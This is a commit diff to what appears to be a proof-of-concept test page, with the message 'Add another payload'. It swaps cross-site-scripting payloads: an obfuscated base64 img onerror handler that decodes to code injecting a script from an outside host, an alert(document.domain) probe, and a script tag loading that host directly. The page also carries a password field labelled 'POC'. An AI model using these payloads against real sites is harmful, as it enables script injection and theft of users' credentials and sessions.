

Before and after one commit to Tzheshjzsj/Test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add another payload

```diff
--- a/index.html
+++ b/index.html
@@ -3,8 +3,7 @@
 <title>Test</title>
 </head>
 <body>
-"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYXh5ei54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
-"><img src=x onerror=alert(document.domain)><br><br><br>
+<script src=https://axyz.xss.ht></script>
 <div>
 Enter your password : <input type="password" name=pass placeholder="POC"><br><br>
 <input type="button" value="Submit">
```
